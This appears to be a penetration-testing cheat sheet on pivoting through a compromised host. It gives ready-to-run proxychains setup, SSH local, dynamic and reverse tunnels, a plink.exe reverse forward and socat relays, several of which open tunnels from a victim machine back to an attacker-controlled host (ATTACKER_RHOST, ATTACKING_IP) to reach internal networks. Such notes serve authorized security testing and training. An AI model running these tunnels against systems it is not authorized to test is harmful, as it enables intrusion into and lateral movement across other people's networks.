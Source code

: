 # Pivoting

## There are 2 types of pivoting

1. Port Forwarding (only one port)
2. Tunnelling and Proxying (all ports)

## Proxychains

Works by prepending the command `proxychains` before other commands.

Proxychains configuration file: `/etc/proxychains.conf` (but proxychains will look into working direcotry first)

```
cp /etc/proxychains.conf .
```

## SSH Tunnelling / Port Forwarding

```
ssh -L <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> user@<COMPROMISED_LHOST> -fN
```

```
ssh -D <COMPROMISED_LPORT> <USER>@<COMPROMISED_LHOST> -fN
```

```
# on your machine
ssh-keygen
vim ~/.ssh/authorized_keys
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty <ID_RSA.PUB>

# on target machine
sudo systemctl status ssh # sudo systemctl start ssh
ssh -R <COMPROMISED_LPORT>:<TARGET_RHOST>:<TARGET_RPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
# or ssh -R <COMPROMISED_LPORT> <USERNAME>@<ATTACKER_RHOST> -i <KEYFILE> -fN
```

## plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with: `puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

## socat

[linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

```
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
./socat tcp-l:<COMPROMISED_LPORT>,fork,reuseaddr tcp:<TARGET_RHOST>:<TARGET_RPORT> &
```
